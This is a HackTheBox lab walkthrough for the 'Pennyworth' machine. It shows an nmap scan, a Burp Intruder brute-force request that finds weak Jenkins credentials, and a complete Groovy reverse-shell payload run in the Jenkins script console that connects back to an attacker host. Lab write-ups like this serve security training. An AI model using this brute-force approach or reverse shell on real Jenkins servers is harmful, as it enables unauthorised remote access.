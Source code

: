 ```yaml
---
title: Pennyworth - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Pennyworth - A HackTheBox machine 

```bash
nmap -sC -sV $ip -Pn -p-
```

Port 8080 is open and from browser we can see a login page of a jenkin service. Version is not displayed. 

Running this request through Burpsuite intruder

```
POST /j_spring_security_check HTTP/1.1
Host: 10.129.228.92:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://10.129.228.92:8080
Connection: close
Referer: http://10.129.228.92:8080/login?from=%2F
Cookie: JSESSIONID.4f24ed31=node0de80ew54idnc17ajfpe13p5hc0.node0
Upgrade-Insecure-Requests: 1

j_username=admin&j_password=!@#$%^&from=%2F&Submit=Sign+in
```

Payload will be in password parameter. You can use several dictionaries. In the sampled request the response will be a 500 response code with Jenkin version visible at the footer: 

```
<div class="page-footer__links page-footer__links--white jenkins_ver"><a rel="noopener noreferrer" href="https://jenkins.io/" target="_blank">Jenkins 2.289.1</a></div>
```

Default password for the service (admin:password) doesn't work. By performing some brute force attack with basic dictionaries, password is root:password

Nice repository for [pentesting jenkins](https://github.com/gquere/pwn_jenkins). I guess there might be several approaches and solutions to this machine. In my case, I used the Script console provided in jenkins with the following payload:

```
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After that:

```bash
whoami
cat /root/flag.txt
```
 
